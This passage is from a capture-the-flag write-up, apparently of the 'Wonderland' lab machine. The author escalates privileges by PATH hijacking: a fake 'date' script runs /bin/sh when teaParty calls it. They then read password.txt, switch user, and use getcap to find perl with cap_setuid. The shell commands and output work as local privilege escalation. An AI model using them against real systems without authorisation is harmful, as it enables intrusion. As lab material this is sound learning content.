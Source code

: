 ![image](/images/wonderland/wond-nano.png)

After a day I analyzed the teaParty file starting from the output file as well as the contents of the file, from the results of my discussion with friends it turned out that in the file there was a command /bin/echo date which outputs Sat, 15 Oct 2022 06:21:09 +0000. then my friend suggested to create a file named date with the contents of the file /bin/sh. then we give permission to execute with chmod +x on the file. After we give the file permission, then we export any file or PATH that is in /home/rabbit to PATH. then run the file teaParty.

```
rabbit@wonderland:~$ echo "/bin/sh" >> date
rabbit@wonderland:~$ chmod +x date 
rabbit@wonderland:~$ export PATH=/home/rabbit:$PATH
rabbit@wonderland:~$ ./teaParty
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter@wonderland:~$ pwd
/home/rabbit
hatter@wonderland:~$ whoami
hatter
hatter@wonderland:~$
```

# ROOT
---
Now we are in the user hatter, then I try to see what files are in it. I get a .txt file, when I see the file the result is text but the file name says password, I think maybe this is a password from various users so I try it one by one on existing users.

```
hatter@wonderland:~$ cd /home
hatter@wonderland:~$ cd hatter
hatter@wonderland:/home/hatter$ ls
password.txt 
hatter@wonderland:~$
```

instead of wasting time trying to determine which users have the highest privileges, I did sudo -l and it didn't work. so i did su hatter for switching groups, i found out with the id command and i was in groups rabbit, so i changed groups.

```
hatter@wonderland:~$ id
uid=1003(hatter) gid=1002(rabbit) groups=1002(rabbit)
hatter@wonderland:~$ su hatter
Password:
hatter@wonderland:~$ id 
uid=1003(hatter) gid=1003(hatter) groups=1003(hatter)
hatter@wonderland:~$
```
then i try to get which directory can execute binaries using getcap

```
hatter@wonderland:~$ getcap / -r 2>/dev/null 
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
hatter@wonderland:~$ 
```
